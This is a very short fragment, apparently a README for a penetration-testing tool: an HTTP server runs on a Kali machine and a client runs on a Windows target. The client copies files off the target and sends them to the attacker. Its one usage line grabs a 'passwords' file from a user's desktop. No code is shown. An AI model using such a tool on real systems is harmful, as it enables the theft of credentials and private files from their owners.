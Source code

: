 Kali: Data Exfiltration_HTTP_Server

Win Target: Data Exfiltration_HTTP_Client

grab file from the Target and send to Kali as a file /root/Desktop/1.txt

use below syntax:
grab*C:\users\Test\Desktop\passwords
